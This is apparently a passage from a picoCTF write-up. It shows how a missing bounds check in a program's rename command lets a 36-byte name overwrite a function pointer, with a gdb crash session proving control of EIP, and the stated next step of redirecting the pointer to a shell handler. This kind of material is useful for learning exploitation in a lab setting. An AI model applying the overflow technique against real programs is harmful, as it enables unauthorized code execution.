 This program accepts the following commands: shell, auth, rename, add, mult, and lol. Out of all these, the rename command allows us to overwrite the function pointer handler defined here:

```c
typedef struct input_handler {
    char cmd[32];
    void (*handler)(char *);
} input_handler;
```

The rename command allows us to rename an existing command to whatever we like. There is no bounds checking done, which means if we provide more than 32 bytes for the new name, we can overwrite the funcion pointer handler with whatever address we like. Let's see it in action: 

```text
# gdb -q best_shell
Reading symbols from /root/pico-ctf/bestshell/best_shell...(no debugging symbols found)...done.
gdb-peda$ r
>> rename lol AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x42424242 ('BBBB')
EBX: 0xb7767ff4 --> 0x160d7c 
ECX: 0x10 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbfe19938 --> 0xbfe19968 --> 0xbfe199e8 --> 0x0 
ESP: 0xbfe1988c --> 0x8048c31 (<input_loop+121>:    jmp    0x8048c46 <input_loop+142>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbfe1988c --> 0x8048c31 (<input_loop+121>:   jmp    0x8048c46 <input_loop+142>)
0004| 0xbfe19890 --> 0x0 
0008| 0xbfe19894 --> 0x8048ea5 --> 0x6f43000a ('\n')
0012| 0xbfe19898 --> 0xb7768440 --> 0xfbad2288 
0016| 0xbfe1989c --> 0xa00d008 --> 0x0 
0020| 0xbfe198a0 --> 0xbfe198b8 ('A' <repeats 12 times>, "BBBB")
0024| 0xbfe198a4 ('A' <repeats 32 times>, "BBBB")
0028| 0xbfe198a8 ('A' <repeats 28 times>, "BBBB")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```

It worked! I renamed the lol command to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB which overwrote the function pointer handler with the address 0x42424242. When I called the renamed lol command, it attempted to execute the instruction at 0x42424242. All we need to do is point it to an address we want, in this case, the shell command which should give us a shell on the server. Finding the address of shell_handler() is a matter of just disassembling it in gdb on the server:
